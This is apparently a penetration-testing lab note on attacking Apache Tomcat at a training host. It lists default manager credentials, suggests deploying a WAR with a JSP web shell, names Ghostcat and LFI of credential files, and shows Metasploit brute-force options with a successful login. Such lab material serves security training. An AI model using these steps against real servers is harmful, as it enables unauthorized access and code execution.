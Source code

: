 Try default credentials:

```
tomcat:tomcat
admin:admin
```

If successful:

* Deploy a `.war` file with **JSP web shell**.
* Gain **Remote Code Execution**.

## 🛠️ Next Steps

* If login fails, attempt **brute force**.
* Exploit known **vulnerabilities** (e.g., CVE-2020-1938, Ghostcat).
* Look for **LFI** to access `web.xml`, `tomcat-users.xml`.

---


# ☕ Attacking Apache Tomcat

## 🎯 Objective

Gain RCE or file access on an externally exposed Tomcat instance (`web01.inlanefreight.local:8180`) by abusing weak/default credentials and known vulnerabilities.

## 1️⃣ Tomcat Manager – Login Brute Force

### 🛠️ Using Metasploit Module

* **Module**: `auxiliary/scanner/http/tomcat_mgr_login`
* **Key Options**:

  ```
  set VHOST       web01.inlanefreight.local
  set RHOSTS      10.129.201.58
  set RPORT       8180
  set STOP_ON_SUCCESS true
  set THREADS     1
  ```
* **Default wordlists** (Metasploit):

  * Users: `/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt`
  * Passwords: `/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt`

#### 🔍 Run and Result

```text
run
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Auxiliary module execution completed
```
